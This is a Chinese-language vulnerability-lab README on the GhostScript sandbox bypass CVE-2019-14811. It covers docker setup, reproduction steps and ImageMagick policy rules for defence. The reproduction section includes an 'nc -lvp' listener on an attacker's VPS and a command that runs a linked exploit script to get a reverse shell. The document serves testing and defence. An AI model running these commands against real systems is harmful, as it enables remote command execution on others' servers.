

# GhostScript 沙箱绕过（命令执行）漏洞 (CVE-2019-14811)

本来是 TokyoWesterns CTF 5th 2019 上的[Slack emoji converter Kai](http://slackemoji.chal.ctf.westerns.tokyo/) 题目

参考链接:
- https://access.redhat.com/security/cve/cve-2019-14811
- https://gist.github.com/hhc0null/82bf2e57ac93c1a48115a1b4afcde706

## 漏洞环境
```
docker-compose up -d
```
环境启动后，访问http://your-ip:8080

## 漏洞复现
利用作者提供的[exploit.py](https://gist.github.com/hhc0null/82bf2e57ac93c1a48115a1b4afcde706)

- 1. 在vps上监听`nc -lvp yourvps-port` 
- 2. 执行`python3 exploit.py http://your-ip:8000 yourvps-ip yourvps-port` 并按回车

即可看到反弹的shell


## 防御
自己编译最新的源码
网上给出的[policy](https://www.anquanke.com/post/id/170255)
```
<policymap>
<policy domain="coder" rights="none" pattern="PS" />
<policy domain="coder" rights="none" pattern="EPS" />
<policy domain="coder" rights="none" pattern="PDF" />
<policy domain="coder" rights="none" pattern="XPS" />
<policy domain="coder" rights="none" pattern="PCD" />
</policymap>
```

是可以用上面的exploit绕过的

下面这种[policy](https://access.redhat.com/security/cve/cve-2018-16509) 直接禁用了gs, 应该是安全的
```
<policy domain="coder" rights="none" pattern="PS" />
<policy domain="coder" rights="none" pattern="EPS" />
<policy domain="coder" rights="none" pattern="PDF" />
<policy domain="coder" rights="none" pattern="XPS" />
<policy domain="delegate" rights="none" pattern="gs" />
```

或者采用白名单
```
<policy domain="delegate" rights="none" pattern="*" />
  <policy domain="filter" rights="none" pattern="*" />
  <policy domain="coder" rights="none" pattern="*" />
  <policy domain="coder" rights="read|write" pattern="{GIF,JPEG,PNG,WEBP}" />
```